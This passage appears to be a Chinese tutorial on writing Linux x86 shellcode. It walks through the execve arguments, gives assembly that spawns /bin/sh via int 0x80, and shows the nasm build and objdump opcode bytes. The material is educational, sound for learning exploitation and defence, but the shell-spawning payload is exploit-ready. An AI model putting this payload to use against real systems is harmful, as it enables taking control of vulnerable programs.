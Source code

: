 函数原型：```execve(const char *filename, char *const argv[], char *const envp[])```

可以得知，该函数有3个输入参数。
- filename指向包含要执行的二进制文件路径的字符串。假设此次
- argv[]是程序的参数列表。若没有更多的参数，则参数列表第一个参数是要执行的文件名，即上述的filename，加一个NULL指针0x00000000
- envp[]是要以key:value格式传递其他环境选项的列表。若无，则为NULL指针0x00000000

步骤：
- 将参数从右至左入栈
- 首先将envp[]的0x00000000入栈
- 再将argv[]的第一个参数文件名入栈，需要反向推送```/bin/sh```。因为```/bin/sh```是7个字节，应将其变成4的倍数个字节，即8个字节。可以将其增加一个不影响结果的```/```，最终变成```//bin/sh```
- 用pythons生成其16进制表示，为```68732f6e69622f2f```
- 将此时栈顶指针esp所指向的地址存入ebx寄存器中，即此时ebx寄存器中存入```/bin/sh```的地址
- 然后将argv[]的第二个参数NULL指针入栈，并将此时的栈顶指针esp指向的地址存入edx中
- 将文件地址ebx入栈
- 再将此时的栈顶指针esp所指向的地址存入ecx寄存器中
- 将系统调用编号11存入al中
- 最后执行int 0x80指令来产生系统调用

```txt
;execve.asm
[SECTION .text]
global _start
_start:
        xor eax, eax       
        push eax
        push 0x68732f6e
        push 0x69622f2f
        mov ebx,esp 
        push eax
        mov edx,esp
        push ebx
        mov ecx,esp
        mov al,11
        int 0x80
```

将上述代码存放到名为```execve.asm```的文件中，执行以下命令：

```txt
root@root:~/shellcode# nasm -f elf execve.asm
root@root:~/shellcode# objdump -d execve.o
```

得到输出如下：
```txt
execve.o：     文件格式 elf32-i386


Disassembly of section .text:

00000000 <_start>:
   0:	31 c0                	xor    %eax,%eax
   2:	50                   	push   %eax
   3:	68 6e 2f 73 68       	push   $0x68732f6e
   8:	68 2f 2f 62 69       	push   $0x69622f2f
   d:	89 e3                	mov    %esp,%ebx
   f:	50                   	push   %eax
  10:	89 e2                	mov    %esp,%edx
  12:	53                   	push   %ebx
  13:	89 e1                	mov    %esp,%ecx
  15:	b0 0b                	mov    $0xb,%al
  17:	cd 80                	int    $0x80
```
